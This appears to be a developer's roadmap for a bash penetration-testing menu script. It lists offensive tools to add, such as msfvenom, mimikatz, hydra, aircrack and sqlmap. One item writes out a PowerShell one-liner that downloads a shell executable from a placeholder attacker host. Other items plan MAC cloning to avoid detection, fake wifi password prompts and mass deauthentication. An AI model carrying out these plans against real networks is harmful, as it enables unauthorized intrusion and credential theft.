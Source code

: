 # Future Features

**This is the resource schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function\
**22 -** Study and implment the crunch password, its great to create password lists\
**23 -** Revitalize the menu, style is everithing.\
**24 -** Study who to implement pyshark here, or maybe wait until this script be reworked in python\
**25 -** Study and implement responder.py\
**26 -** Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script\
**27 -** Study and implement hashcat\
**27 -** Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness\
**28 -** Replace all echos for printf, its better\
**29 -** See how i avoid to use eval, its too bat for security\
**30 -** Revist the script, read top from boton and see what can be done better\
**31 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**32 -** Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile\
**33 -** Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux\
**34 -** Study Msfvnom and implement, it is an excelent payload generator[:]\
**35 -** Study and implent pwncat\
**36 -** Create a menu with utilstuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell\
**37 -** study the best directory wordlist, to use in dirbuster or afuzz, or another tool\
**38 -** Study and implement wpscan, its a good tool to break into wordpress sites\
**39 -** Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some already created linux tools for this maybe only implement is suficient\
**40 -** Revist the script, read top from boton and see what can be done better\
**41 -** Study and implement rustscan, its a realy good tool.\
**42 -** Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts\
**43 -** Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti\
**44 -** Create a Function who update the script with the last features implemented in the github version\
**45 -** If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible\
**46 -** Organize the menu in a better way, is too confuse\
**47 -** Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"\
**48 -** Study massscan, its good for mass scaning ports, or rustscan? What is better?\
**49 -** Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about\
**50 -** Revist the script, read top from boton and see what can be done better\
**51 -** Study and implement msfvenom its a great tool to make palyloads\
**52 -** Study and implement nikto\
**53 -** Study and implement termshark, its good to see pcaps in terminal\
**54 -** Study and implement FFUF, its really fast because its in go\
**55 -** Implement option so search ".bak" in in websearches, it really good to see some codes, in cgi-bin its good to search for .sh for exemplo because shell shock atacks\
**56 -** Study and implement Uchecker, its a good tool to check for not uptodate tools on servers\
**57 -** Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users\
**58 -** Study and implment sublist3r, its a really great scanner for subdomains ussing ossint\
**59 -** Study and implment nikton its a good webscaner\
**60 -** Revist the script, read top from boton and see what can be done better\
**61 -** Study and implment social engenner tookit, its really god to work with social engineer\
**62 -** Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter\
**63 -** Implement wfuzz its preaty great\
**64 -** Study and Implement Sqlmap\
**65 -** Implement te 'sectlist' program from kali, its copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?\
**66 -** Study and implent enum4linux, its preaty good to use to enumerate samba shares\
**67 -** Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose\
**68 -** Study and implement sherlock, its a great tool for OSINT\
**69 -** Study and implement airgedon its good to do deauth atacks in softwarey\
**70 -** Revist the script, read top from boton and see what can be done better\
**71 -** What i can do to make this script more beautiful? Maybe some colors or ident?\
**72 -** Maybe Implement RustScan? Its so fast
